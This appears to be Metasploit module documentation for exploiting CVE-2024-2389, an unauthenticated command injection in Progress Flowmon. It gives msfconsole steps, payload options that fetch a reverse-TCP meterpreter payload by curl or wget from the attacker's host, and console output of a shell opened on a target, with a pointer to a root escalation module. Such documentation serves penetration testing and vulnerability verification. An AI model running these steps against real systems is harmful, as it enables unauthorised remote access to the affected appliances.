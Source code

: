 ## Vulnerable Application
CVE-2024-2389: Progress Flowmon Unauthenticated Command Injection

For more details on the vulnerability:  
https://rhinosecuritylabs.com/research/cve-2024-2389-in-progress-flowmon/

https://support.kemptechnologies.com/hc/en-us/articles/24878235038733-CVE-2024-2389-Flowmon-critical-security-vulnerability

This application is avaiable in cloud marketplaces:
- https://portal.azure.com/#view/Microsoft_Azure_Marketplace/GalleryItemDetailsBladeNopdl/id/progresssoftwarecorporation.flowmon
- https://aws.amazon.com/marketplace/pp/prodview-6phnrhkekuzka
- https://console.cloud.google.com/marketplace/product/flowmon-public/flowmon-collector-for-google-cloud


## Verification Steps
1. Install the application
1. Start msfconsole
1. Do: `use exploits/linux/http/progress_flowmon_unauth_cmd_injection`
1. Do: `set RHOSTS <target flowmon>`
1. Do: `set RPORT <port flowmon is running on>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the `flowmon` user.
1. (Optional) use the module `exploit/linux/local/progress_flowmon_sudo_privesc_2024` to gain root privileges.

## Scenarios

### Flowmon 12.2

``` msf6 exploit(linux/http/progress_flowmon_unauth_cmd_injection) > show options

Module options (exploit/linux/http/progress_flowmon_unauth_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PRIVESC    true             yes       Automatically try privesc to add sudo entry
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.174.209.101  yes       The target host(s), see https://docs.metasploit.com/docs/using-meta sploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI path to Flowmon
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP
                                                  , WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      TkHAXYbQwlH      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain space
                                                  s
   LHOST               138.111.211.11   yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/flowmon_unauth_cmd_injection) > run

[*] Started reverse TCP handler on 138.111.211.11:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 172.174.209.101:443 can be exploited!
[*] Detected version: 12.02.06
[+] Version 12.02.06 is vulnerable.
[+] The target is vulnerable.
[*] Attempting to execute payload...
[*] Meterpreter session 1 opened (138.111.211.11:4444 -> 172.174.209.101:48856) at 2024-05-01 15:22:24 +0000

meterpreter > sysinfo
Computer     : flowmon.my3m4o21xjze5fomtxp5e53h2h.bx.internal.cloudapp.net
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.76.1.el7.flowmon.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: flowmon
```
